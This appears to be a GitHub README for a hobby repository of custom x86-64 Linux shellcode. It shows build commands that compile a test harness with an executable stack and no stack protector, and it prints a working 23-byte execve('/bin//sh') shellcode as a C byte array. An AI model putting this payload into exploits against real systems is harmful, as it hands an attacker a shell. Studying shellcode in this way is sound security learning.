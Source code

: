 # SHELLCODE SAFEHOUSE
Hello folks, this safehouse contains some custom shellcode targetting intel x86-64 CPU on Linux platform.

##  CLONING
To clone the repository on your local machine, isuue the bellow given command -
```
critical@d3ad:~$ git clone https://github.com/compilepeace/SHELLCODING_INTEL_x86-64
Cloning into 'SHELLCODING_INTEL_x86-64'...
remote: Enumerating objects: 74, done.
remote: Counting objects: 100% (74/74), done.
remote: Compressing objects: 100% (53/53), done.
remote: Total 74 (delta 24), reused 68 (delta 18), pack-reused 0
Unpacking objects: 100% (74/74), done.

```


##  USAGE
To generate shellcode on your own just enter the `make` command to assemble into object code as bellow -
```
critical@d3ad:~SHELLCODING_INTEL_x86-64$ make
gcc -Wl,-N -nostdlib -static exit.s -o exit.elf
objcopy --dump-section .text=exit.raw exit.elf
...
objcopy --dump-section .text=execve_binsh.raw execve_binsh.elf
gcc -z execstack -fno-stack-protector harness.c -o harness.elf
```
To remove all object files generated, issue the bellow given commands -
```
critical@d3ad:~SHELLCODING_INTEL_x86-64$ make clean
rm -f *.elf *.raw
```
To convert shellcode in C-style arrays from raw bytes -
```
critical@d3ad:~SHELLCODING_INTEL_x86-64$ xxd -i ./execve_binsh.raw
unsigned char __execve_binsh_raw[] = {
  0x31, 0xf6, 0x31, 0xd2, 0x52, 0x48, 0xbf, 0x2f, 0x2f, 0x62, 0x69, 0x6e,
  0x2f, 0x73, 0x68, 0x57, 0x54, 0x5f, 0x6a, 0x3b, 0x58, 0x0f, 0x05
};
unsigned int __execve_binsh_raw_len = 23;
``` 

Any suggestions to shellcode optimisation are welcomed, feel free to open up issues, cheers !

You can also email me regarding any queries,<br>
**NAME** : **ABHINAV THAKUR**<br>
**EMAIL**: **compilepeace@gmail.com**


[SHELLCODE_SAMPLES]: ./SHELLCODE_SAMPLES
[test_shellcode.c]: ./test_shellcode.c
